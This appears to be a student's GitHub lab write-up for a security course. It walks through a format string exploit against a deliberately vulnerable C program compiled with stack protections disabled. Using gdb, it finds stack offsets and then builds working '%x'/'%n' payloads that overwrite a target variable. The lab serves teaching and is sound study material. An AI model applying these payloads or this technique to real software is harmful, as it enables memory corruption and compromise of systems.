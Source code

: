 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
```
    export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"
```
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or with flags (flags don't work for me so I compiled with above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](ref/image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](ref/image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](ref/image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: ![Alt text](ref/image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](ref/image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](ref/image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](ref/image-8.png)

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough

![image](https://github.com/osuzuki/sec_engineering_exercises/assets/8805399/ef7206d2-c61b-4c37-b1ac-513b8251635c)

   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:![Alt text](ref/image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Note: when I re-run this my command was this:
```
run `(python -c 'print "\x28\xa0\x04\x08"+"BB" + "%x." * 143+"%n"')`
```


Output:![Alt text](ref/image-9.png)


## Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run your update command: mine was: run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: `print target` - the value should be 0 
- type: '''next'''
- type: '''next'''
- `print target` - the value should be changed
![Alt text](ref/image-10.png)


## Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



